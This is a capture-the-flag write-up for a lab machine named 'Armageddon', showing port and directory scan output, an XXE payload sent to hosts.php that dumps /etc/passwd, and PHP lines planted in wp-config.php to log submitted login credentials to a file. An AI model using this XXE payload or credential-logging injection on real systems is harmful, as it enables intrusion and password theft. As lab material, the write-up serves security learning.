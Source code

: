 # Armageddon Writeup


## Enumeration

#### Port Scanning

```
Nmap scan report for 10.129.220.248
Host is up (0.13s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-r--r--r--    1 ftp      ftp            86 Dec 21  2017 test.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.16.131
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh
| ssh-hostkey: 
|   2048 ad:21:fb:50:16:d4:93:dc:b7:29:1f:4c:c2:61:16:48 (RSA)
|   256 2c:94:00:3c:57:2f:c2:49:77:24:aa:22:6a:43:7d:b1 (ECDSA)
|_  256 9a:ff:8b:e4:0e:98:70:52:29:68:0e:cc:a0:7d:5c:1f (ED25519)
80/tcp open  http
|_http-title: Apache2 Ubuntu Default Page: It works

```

#### Directory Fuzzing

```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.220.248/
[+] Method:                  GET
[+] Threads:                 15
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,aspx,sh,php,html
[+] Timeout:                 10s
===============================================================
2021/11/23 06:12:48 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 11321]
/hosts.php            (Status: 200) [Size: 46]   
```

## Initial Access
Navigating to the [hosts.php](http://10.129.220.248/hosts.php), the page dumps a host count. 

Going back to FTP, we can log in as Anonymous, and we see a _test.txt_ file that contains what seems like an XML payload that would be sent to the _hosts.php_ endpoint via a POST request. 

Testing this, we're right. I used [this cheat sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md) to create this payload:

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE details [
<!ELEMENT subnet_mask ANY >
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<details>
<subnet_mask>&file;</subnet_mask>
<test></test>
</details>
```

This succeeds by dumping the contents of /etc/passwd, where I found 2 users, **cliff** and **florian**. 


## Privelege Escalation

Saw that there was a process called `whoopsie` running constantly that simulated an administrator loggin into Wordpress. Added these lines to _wp-config.php_ to output the credentials entered into the form. 


```
$rrr = print_r($_REQUEST, true);
$fff = fopen("/dev/shm/df", "a");
fwrite($fff, $rrr);
fclose($fff);
```
Got root password and flag.
